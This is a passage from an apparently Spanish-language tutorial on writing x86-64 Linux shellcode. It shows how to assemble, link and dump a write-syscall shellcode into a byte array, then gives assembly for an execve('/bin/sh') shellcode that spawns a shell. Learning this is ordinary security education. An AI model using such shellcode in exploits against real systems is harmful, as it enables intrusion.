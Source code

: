 
Ahora procedemos a compilar: ```nasm -f elf64 shellcode.asm```

Esto nos dejara un archivo .o el cual debemos de enlazar: ```ld -m elf_x86_64 -s -o write shellcode.o```

Estos dos comandos nos dejo un binario elf, el cual si ejecutamos, se ejecutara la syscall write, y mostrara el texto:

![](/assets/img/shellcode/1.png)

Y a toda madre, funciona, pero eso no es una shellcode, es un binario elf, y si lo vemos en un editor hexadecimal podemos ver la shellcode en hexadecimal

![](/assets/img/shellcode/2.png)

Asi que para pasarla a un byte array, que seria la forma en la que se inyectan, primero usaremos

- ```objcopy -j .text -O binary shellcode.o write.bin``` para generar un archivo .bin

- ```hexdump -v -e '"\\" 1/1 "x%02x"' write.bin; echo``` para imprimir el byte array

Y ahora si, esto si es una shellcode a como estamos acostumbrados a verlas:

```
\xb8\x01\x00\x00\x00\x48\xbe\x4e\x61\x7a\x75\x6e\x61\x00\x00\x56\x48\x89\xe6\xba\x06\x00\x00\x00\x0f\x05\xb8\x3c\x00\x00\x00\x0f\x05
```

## Shellcode para conseguir una shell

Ahora usaremos execve para poder ejecutar /bin/sh, y que consigamos una shell, el codigo es el siguiente:


```
section .text
    global _start

_start:

    xor rdx, rdx
    push rdx
    mov rax, 0x68732f2f6e69622f
    push rax
    mov rdi, rsp
    push rdx
    push rdi
    mov rsi, rsp
    xor rax, rax
    mov al, 0x3b
    syscall
```
Explicare directamente lo que esta dentro de ```_start``` por que lo demas ya saben que hace
